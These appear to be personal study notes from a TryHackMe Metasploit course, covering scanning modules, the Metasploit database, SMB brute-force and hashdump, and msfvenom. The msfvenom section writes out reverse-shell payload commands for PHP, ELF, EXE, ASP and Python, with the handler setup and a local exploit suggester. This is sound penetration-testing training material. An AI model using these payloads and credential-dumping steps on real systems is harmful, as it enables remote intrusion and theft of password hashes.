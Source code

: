 -  [[Metasploit]] has modules that can be used to scan open ports on a target machine: `search portscan`
- You can use `nmap` from the `msfconsole` as well.
- `scanner/discovery/udp_sweep` (`/usr/share/metasploit-framework/modules/auxiliary/scanner/discovery/udp_sweep`) - for [[UDP (User Datagram Protocol)]] scans.
-  [[SMB (Server Message Block)]] scanners:
	-  `/usr/share/metasploit-framework/modules/auxiliary/scanner/smb/`
- "When performing service scans, it would be important not to omit more "exotic" services such as NetBIOS."
- [[SMB (Server Message Block)]]:
	- login brute force module: `/usr/share/metasploit-framework/modules/auxiliary/smb/smb_login` 
	- version: `/usr/share/metasploit-framework/modules/auxiliary/smb/smb_version`
- [[HTTP (Hypertext Transfer Protocol)]] version: `/usr/share/metasploit-framework/modules/auxiliary/http/http_version`
-  NetBIOS: 
	-  info: `auxiliary/scanner/netbios/nbname`

###### The Metasploit Database
- purpose: to simplify project management and avoid possible confusion when setting up parameters values.
- Start the PostgreSQL database: `systemctl start postgresql`
- Initialize the [[Metasploit]] Database: `msfdb init`
- list all the current workspaces: `workspace`
	-  `workspace -a tryhackme`: add a new workspace named `tryhackme`
	-  `workspace -d tryhackme`: remove a workspace named `tryhackme`
	-  move between workspaces by simply using `workspace <name_of_workspace>`
	- `workspace -h`
- you can use the command `help`, if [[Metasploit]] is launched with a database, additional commands will be displayed related to the [[Metasploit]] Database.
- `dn_nmap` will save the scan results into the database ([[nmap (network mapper)]] crossover)
	-  example: `db_nmap -sV -p- 10.10.89.52`
	-  you can use `hosts` and `services` after the scan.
		-  `hosts -h`
		-  `services -h`
		-  `services -S <service>` - search for a specific service, example `services -S netbios`
		-  `hosts -R` to add the this value to the `RHOSTS` parameter.

###### Vulnerability Scanning
- "[[Metasploit]] allows you to quickly identify some critical vulnerabilities that could be considered as “low hanging fruit”.  The term “low hanging fruit” usually refers to easily identifiable and exploitable vulnerabilities that could potentially allow you to gain a foothold on a system and, in some cases, gain high-level privileges such as root or administrator."
- `info`
- `sessions`, `sessions -i <session_number>`

###### Exploitation
- `hashdump` - dump all the hashes from the `sam` (`C:/Windows/System32/`) database in a windows system. (available when using Meterpreter)

###### Msfvenom
- replaced `Msfpayload` and `Msfencode`
- will allow you to access all payloads available in the [[Metasploit]] framework. ([[cybersec/thm/PHP]], exe, dll, elf, etc.)
- `msfvenom -l payloads`

Output formats
- `msfvenom --list format`

Encoders
- "Contrary to some beliefs, encoders do not aim to bypass antivirus installed on the target system. While it can be effective against some antivirus software"
- "..., using modern obfuscation techniques or learning methods to inject shellcode is a better solution to the problem."
- example: `msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.186.44 -f raw -e php/base64`

Handlers
- used for catching Reverse Shells, to accept incoming connections generated by the MSFvenom payload.
- `msfvenom -p php/reverse_php LHOST=10.0.2.19 LPORT=7777 -f raw > reverse_shell.php`
- don't forget to remove the "comments" in the payload. The reverse_shell.php file should be edited to convert it into a working PHP file. Add end tag.

- Generate the [[cybersec/thm/PHP]] shell using MSFvenom
- Start the [[Metasploit]] handler
- Execute the [[cybersec/thm/PHP]] shell

- "Multi handler supports all [[Metasploit]] payloads and can be used for Meterpreter as well as regular shells."
- `use exploit/multi/handler`, set the payload value to: `php/reverse_php`

###### Other Payloads
- Linux Executable and Linkable Format (elf): `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf`
- The .elf format is comparable to the .exe format in Windows.
- make sure they have executable permissions on the target machine. (`chmod +x shell.elf`). Execute it with `./shell.elf`

- Windows: `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe`

- [[cybersec/thm/PHP]]: `msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php`

- ASP: `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev_shell.asp`

- Python: `msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.py`

- "All of the examples above are reverse payloads. This means you will need to have the exploit/multi/handler module listening on your attacking machine to work as a handler. You will need to set up the handler accordingly with the payload, LHOST and LPORT parameters. These values will be the same you have used when creating the msfvenom payload."

- `uname -m` - system architecture
- MAKE SURE TO SET THE PAYLOAD PARAMETER! SYSTEM ARCHITECTURE, LHOST AND LPORT SHOULD MATCH!
- in a meterpreter session: `run post/multi/recon/local_exploit_suggester`